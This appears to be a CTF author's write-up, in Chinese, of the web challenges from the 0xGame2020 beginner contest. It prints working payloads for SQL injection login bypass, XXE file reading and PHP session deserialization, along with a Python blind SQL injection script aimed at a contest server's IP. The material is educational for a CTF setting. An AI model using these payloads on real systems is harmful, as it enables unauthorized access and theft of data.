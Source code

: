 ```yaml
---
title: 0xGame2020出题笔记
date: 2020-10-30
image: https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120181429.png
description: 南京邮电大学新生赛
categories: 
- ctf_writeup
tags:
---
```

学校有史以来第一次这么简单的新生赛，我承担平台的运维和web出题。

第一次出这么多题，虽然题目难度都不大，不过折腾和搞平台环境还是花了不少精力，目的在于三点：

1. 希望CTF能在学校更普及
2. 希望能找到有兴趣和有毅力的学弟学妹
3. 题目很多都是来自入门文档的知识点，看过的一定很容易做出来，希望新同学能认真看资料

------

题目开源地址：https://github.com/Anthem-whisper/0xGame2020

所有题目环境：https://shimo.im/docs/8hkRHdRDdWyKycyK

因为是自费运营，还请师傅们不要恶意破坏环境

### 第一周

题目都是最简单的入门题目，也不涉及web漏洞，没什么好说的。主要考察同学们配置环境的动手能力。

### 第二周

出了一道很简单的SQL注入，

核心是要猜测登录时所拼接的sql语句：

```
$sql = "select username from user where username='". $username ."' and password='". $password ."';";
```

没有任何waf，在用户名处输入`admin' or 1=1#`搞定，由于#符号把后面的语句注视掉了，实际上sql语句实际上变成了：

```
select username from user where username='admin' or 1=1
```

1=1是永远成立的，所以必然能返回大于一行的数据，也就是 mysql_num_rows($res)>0，就可以获得flag

 

### 第三周

一道XXE，一道SQL布尔盲注

#### inject_me

XXE是去年NCTF2019的原题，我在web入门doc里面写过，并且题目地址和源码我都给了。

在给了hint的情况下这么少的解还是出乎我的意料

由HTTP响应里面返回的标签以及Content-Type是xml格式可以很轻易的百度到XXE这种攻击手段

XXE学习：https://xz.aliyun.com/t/3357

告诉了/flag，那么随手一个payload就出来了：

```
<?xml version="1.0"?>
<!DOCTYPE dy [
<!ENTITY dy SYSTEM "file:///flag">
]>
<user><username>&dy;</username><password>123</password></user>
```

 

#### close_eyes

布尔盲注很多同学用手打，本来目的是想叫你们去学python的，结果硬是手打出来了，下次出个128位的flag（bushi

本来想稍微加点waf的，后来不想出难了就没加，开SQLmap的莫得灵魂。

布尔盲注学习：https://xz.aliyun.com/t/7169#toc-2

这篇文章不仅仅讲了盲注也讲了其他的一些手法，值得钻研一番

思路就是语句为假的时候（比如我用户名输入1'||1=0#或者乱输一个用户名密码），页面回显“数据库里没你这号人,别想骗劳资.jpg”

为真的时候（比如我输入1'||1=1#）页面回显“数据库有你这号人，那又怎么着？”，根据回显情况的不同，我们就可以判断我们的condition究竟是真还是假。

```
1'||(condition)#
```

不断地改变condition就可以查到我们想要的数据；

举个例子：

```
1'||length(database())>1#
```

判断数据库名字的长度是不是大于1，页面返回“数据库有你这号人，那又怎么着？”，那么我们就可以确定数据库名字长度大于1。

类似的：

```
1'||ascii(substr(database(),1,1))=117#
```

可判断数据库第一个字母是ASCII码为117的字母，也就是‘u'。

也可以使用二分法进行盲注。

exp：

```
#python3
#wh1sper
import requests
host = 'http://59.110.157.4:30052/login.php'
def mid(bot, top):
    return (int)(0.5 * (top + bot))
def sqli():
    name = ''
    for j in range(1, 250):
        top = 126
        bot = 32
        while 1:
            babyselect = 'database()'#user
            #babyselect = '(select table_name from information_schema.tables where table_schema=database())'#user
            #babyselect = "(select group_concat(column_name) from information_schema.columns " \
            #            "where table_schema=database() and table_name='user')"#id,username,password
            #babyselect = "(select group_concat(password) from user)"#0xGame{blind_sqli_1s_not_hard}
            data = {
                "password": "1",
                "username": "1'||ascii(substr({},{},1))>{}#".format(babyselect, j, mid(bot, top))
            }
            r = requests.post(url=host, data=data)
            #print(r.text)
            print(data)
            if '数据库有你这号人' in r.text:#子查询为真
                if top - 1 == bot:
                    name += chr(top)
                    print(name)
                    break
                bot = mid(bot, top)
            else:
                if top - 1 == bot:
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)
if __name__ == '__main__':
    sqli()
```

 

### 第四周

#### broken_motto

session反序列化，也是文档里面出现过的

\>>[学习链接](https://www.mi1k7ea.com/2019/04/21/PHP-session反序列化漏洞/)，建议自己本地动手搭一个环境

在profile.php里面里面有一行注释：

```
//ini_set('session.serialize_handler','php_serialize');
```

这行代码使用的Session序列化选择器是php_serialize，注释之后默认使用的是php

两种选择器的不同的处理方式导致了session反序列化的漏洞的产生，存session的时候，存入php_serialize经过serialize()函数序列处理的数组

读取的时候php以键名 ＋ 竖线 ＋ 经过 serialize() 函数序列化的数据处理如果你注册的时候加一个|，他会把`|`前面的忽略掉，只反序列化后面的，就可以造成对象注入。

exp：

```
<?php
 
class info{
    public $admin;
    public $username;
    public $motto;
 
}
 
$pop = new info();
$pop->admin = 1;
echo serialize($pop);
```

payload：

```
|O:4:"info":3:{s:5:"admin";i:1;s:8:"username";N;s:5:"motto";N;}
```

 

这次比赛总的来说呢，还是很成功的，相信同学们都找到了自己心里一直想追求的方向，当然，比赛中也不乏表现突出的选手，希望你们能坚持下去，去追求更深的技术，更好的未来